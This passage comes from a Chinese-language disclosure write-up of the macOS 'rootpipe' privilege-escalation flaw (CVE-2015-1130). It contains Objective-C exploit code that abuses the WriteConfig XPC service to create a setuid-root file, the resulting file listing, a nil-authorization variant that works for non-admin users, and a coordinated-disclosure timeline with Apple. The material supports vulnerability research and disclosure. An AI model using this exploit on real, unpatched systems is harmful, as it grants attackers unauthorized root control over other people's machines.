 ![enter image description here](http://drops.javaweb.org/uploads/images/5fb0b2a972e3c6865692ed9d6e53dd3d03dcc97d.jpg)

这正是我想要的，给writeconfig XPC服务创建一个XPC客户端，并且这个服务是以root权限运行的。

![enter image description here](http://drops.javaweb.org/uploads/images/35b11393dbcd62c54ebaf77e411afdcc4e572f7f.jpg)

唯一的问题就是我应该给authenticateUsingAuthorization传递什么参数，从systemsetup文件当中找到如下：

![enter image description here](http://drops.javaweb.org/uploads/images/0bf702426dc10c2eaed281b82551ec246429c6b9.jpg)

看起来[SFAuthorization authorization]可以来做触发，下面是我的新的exp：

```
id auth = [objc_lookUpClass("SFAuthorization") authorization];
id sharedClient =
    [objc_lookUpClass("WriteConfigClient") sharedClient];
[sharedClient authenticateUsingAuthorizationSync: auth];
id tool = [sharedClient remoteProxy];

[tool createFileWithContents:data
                        path:[NSString stringWithUTF8String:target]
                  attributes:@{ NSFilePosixPermissions : @04777 }];

```

文件最终创建，setuid已经设置：

```
-rwsrwxrwx 1 root wheel 25960 Apr 1 19:29 rootpipe.tmp

```

既然setuid已经设置并且拥有者是root，我们就有有了一个提权漏洞。

上面的代码适用于10.9及以后版本，10.7.x和10.8.x有些类文件名略不相同。

但是上面的代码仍然有一个问题，只可以在admin的权限下运行，之前提到过几乎所有的OS X用户都是admin。

最终找到一个适用所有用户使用的方法，很简单，只要把[SFAuthorization authorization]:的结果替换为发送nil到authenticateUsingAuthorizationSync。

```
[sharedClient authenticateUsingAuthorizationSync: nil];

```

0x03 Timeline
=============

* * *

```
Oct 2nd 2014: First discovery
Oct 3rd 2014: First contact with Apple Product Security Team
Oct 14th 2014: Exploit code shared with Apple
Oct 24th 2014: Initial full disclosure date set to Jan 12th 2015
Oct 16th 2014: Release of OS X 10.10 Yosemite, vulnerable to rootpipe
Nov 14th 2014: Apple requested to postpone disclosure
Nov 17th 2014: Release of OS X 10.10.1, also vulnerable
Jan 12th 2015: Joint decision between Apple and TrueSec to postpone disclosure due to the amount of changes required in OS X
Jan 16th 2015: CVE-2015-1130 created by Apple
Jan 27th 2015: Release of OS X 10.10.2, also vulnerable
March 2nd 2015: Release of OS X 10.10.3 public beta, issue solved
April 1st 2015: Apple confirmed that release is coming the second week of April
April 8th 2015: Release of OS X 10.10.3
April 9th 2015: Full disclosure

```
